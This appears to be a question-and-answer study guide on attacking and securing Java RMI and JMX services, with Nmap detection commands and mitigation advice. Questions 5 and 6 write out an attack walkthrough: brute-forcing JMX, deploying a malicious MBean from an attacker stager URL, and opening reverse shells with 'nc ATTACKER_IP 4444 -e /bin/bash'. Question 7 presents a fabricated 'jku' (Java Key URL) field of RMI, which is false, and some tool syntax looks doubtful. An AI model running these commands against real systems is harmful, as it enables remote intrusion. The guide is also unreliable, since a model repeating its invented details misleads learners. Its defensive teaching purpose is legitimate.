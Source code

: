 ### 1. **Explain the concept of Remote Method Invocation (RMI) in Java and its use in distributed systems.**
   **Answer:**  
   Java RMI (Remote Method Invocation) is an API that enables objects running in one Java Virtual Machine (JVM) to invoke methods on objects running in another JVM, even across different physical machines. This allows for seamless remote communication in a distributed system, where objects can be accessed and invoked remotely as if they were local. RMI uses a client-server model, where the server exposes its remote objects, and the client invokes methods on those objects over a network.

---

### 2. **What security vulnerabilities exist in Java RMI and how can they lead to remote code execution (RCE)?**
   **Answer:**  
   Java RMI services, if misconfigured or improperly secured, can expose vulnerabilities that allow remote code execution (RCE). The most common vulnerabilities include:
   - **RMI Registry Vulnerability**: Default RMI registry configurations may allow arbitrary class loading from remote URLs, enabling attackers to load malicious classes and execute code remotely.
   - **JMX Remote Code Execution**: Java Management Extensions (JMX) over RMI, when not properly secured, can allow attackers to deploy and invoke malicious MBeans by manipulating JMX services.
   - **Deserialization of Untrusted Data**: Attackers can exploit insecure deserialization of objects transmitted over RMI, especially if known payloads like `CommonsCollections` are used to trigger RCE.

   Tools like **sjet/mjet** and **beanshooter** can exploit these weaknesses to achieve RCE by manipulating remote Java services.

---

### 3. **What is the purpose of tools like `sjet/mjet` and `beanshooter` in the context of RMI exploitation?**
   **Answer:**  
   - **sjet/mjet**: These tools are used to exploit Java RMI services by leveraging JMX (Java Management Extensions) vulnerabilities. They typically use a JMX service to load malicious MBeans via an MLet file hosted on an attacker-controlled server. The attacker can then invoke methods on these malicious MBeans, leading to potential RCE.
   - **beanshooter**: This tool is a JMX exploitation toolkit that allows attackers to interact with JMX endpoints to perform actions like listing MBeans, deploying malicious MBeans, invoking methods remotely, and exploiting deserialization vulnerabilities. It provides commands to manipulate attributes, execute arbitrary commands, and perform brute-force password attacks on JMX services.

---

### 4. **How can you detect if a Java RMI service is vulnerable to remote code execution?**
   **Answer:**  
   Detection of vulnerabilities in Java RMI can be done using a combination of tools and techniques:
   - **Nmap**: You can use Nmap with specific scripts to detect vulnerabilities in RMI services, such as:
     - `rmi-dumpregistry`: Identifies exposed RMI services and their bound names.
     - `rmi-vuln-classloader`: Checks for the default RMI registry configuration vulnerability that allows class loading from remote URLs.
     Example command:
     ```bash
     nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p TARGET_PORT TARGET_IP
     ```
   - **remote-method-guesser**: This tool can be used to enumerate RMI services on a target by scanning for open RMI ports and services. It can also identify vulnerable services based on known attack strategies.
   Example usage:
   ```bash
   rmg scan TARGET_IP --ports 0-65535
   ```

---

### 5. **Explain the attack process of RCE using a tool like `beanshooter`.**
   **Answer:**  
   The attack process using **beanshooter** involves several steps:
   1. **Enumerate JMX Services**: Use the `enum` command to identify available JMX services and MBeans exposed on the target.
      ```bash
      beanshooter enum TARGET_IP TARGET_PORT
      ```
   2. **Brute-force Authentication**: If JMX services are password-protected, the `brute` command can be used to attempt password guesses for the service.
      ```bash
      beanshooter brute TARGET_IP TARGET_PORT
      ```
   3. **Deploy Malicious MBeans**: Attackers can deploy a malicious MBean to the target JVM using a command like `deploy`, specifying the target MBean and a stager URL that points to the attacker’s server.
      ```bash
      beanshooter deploy TARGET_IP TARGET_PORT maliciousBean qtc.test:type=MaliciousBean --jar-file maliciousBean.jar --stager-url http://ATTACKER_IP:8000
      ```
   4. **Invoke Malicious Methods**: Once the MBean is deployed, malicious methods can be invoked remotely, leading to RCE. For example, invoking a method to execute a reverse shell:
      ```bash
      beanshooter invoke TARGET_IP TARGET_PORT maliciousMBean --signature 'exec("nc ATTACKER_IP 4444 -e /bin/bash")'
      ```

---

### 6. **What are deserialization attacks in the context of Java RMI, and how can they lead to RCE?**
   **Answer:**  
   Deserialization attacks occur when an attacker sends malicious serialized objects to a vulnerable RMI service, exploiting the way Java handles object deserialization. If the service deserializes untrusted input without proper validation, it can lead to the execution of arbitrary code. Common deserialization payloads, such as **CommonsCollections6**, can be used to trigger this vulnerability, allowing an attacker to run commands on the target JVM.

   Example command using `beanshooter` to exploit deserialization:
   ```bash
   beanshooter serial TARGET_IP TARGET_PORT CommonsCollections6 "nc ATTACKER_IP 4444 -e /bin/bash"
   ```

---

### 7. **What role does the `jku` (Java Key URL) field play in RMI-related attacks, and how can it be exploited?**
   **Answer:**  
   The `jku` (Java Key URL) field in RMI and JMX services specifies a URL from which to load keys or classes. If this field is not properly validated, attackers can manipulate it to point to an attacker-controlled server, potentially loading malicious classes or keys that can facilitate RCE. This is particularly risky in services where the `jku` URL is not restricted to trusted sources. Attackers can exploit this by injecting a malicious URL into the `jku` field.

   Mitigation involves ensuring that URLs in `jku` are strictly validated and only point to trusted servers.

---

### 8. **How does the `rmi-vuln-classloader` Nmap script help in detecting RMI vulnerabilities?**
   **Answer:**  
   The **`rmi-vuln-classloader`** Nmap script checks if the RMI service allows the loading of classes from remote URLs, a critical vulnerability that could lead to remote code execution. If an RMI service is configured to allow class loading from external sources without proper security controls, an attacker can potentially load and execute arbitrary code on the target machine. By running this script, you can quickly identify services vulnerable to this attack:
   ```bash
   nmap -sV --script "rmi-vuln-classloader" -p TARGET_PORT TARGET_IP
   ```

---

### 9. **What are the potential mitigation strategies to secure Java RMI services?**
   **Answer:**  
   Securing Java RMI services involves several practices:
   - **Disable Remote Class Loading**: RMI registry configurations should disable the ability to load classes from remote URLs unless absolutely necessary.
   - **JMX Authentication**: Always enable and enforce strong authentication for JMX services to prevent unauthorized access.
   - **Use Firewalls**: Restrict access to RMI services through firewalls to trusted IP addresses only.
   - **Secure Deserialization**: Validate all serialized objects received by RMI services, using techniques like input filtering, or libraries like Apache Commons IO that prevent unsafe deserialization.
   - **Patching**: Ensure that the Java RMI service is kept up to date to avoid known security vulnerabilities.
   - **Use Secure RMI Bindings**: Secure the RMI service with SSL/TLS to prevent man-in-the-middle attacks.

---

### 10. **Explain the `remote-method-guesser` tool and its purpose in the context of Java RMI exploitation.**
   **Answer:**  
   **remote-method-guesser** is a tool designed for enumerating Java RMI services and discovering potential attack vectors. It scans for RMI services running on open ports and then attempts to guess methods and interactions based on known patterns or behaviors. It can identify vulnerable services and assist in crafting specific attacks. Its main goal is to gather information about available services and their exposed methods, which can then be exploited for further attacks like RCE.

   Example scan using `remote-method-guesser`:
   ```bash
   rmg scan TARGET_IP --ports 0-65535
   ```

---
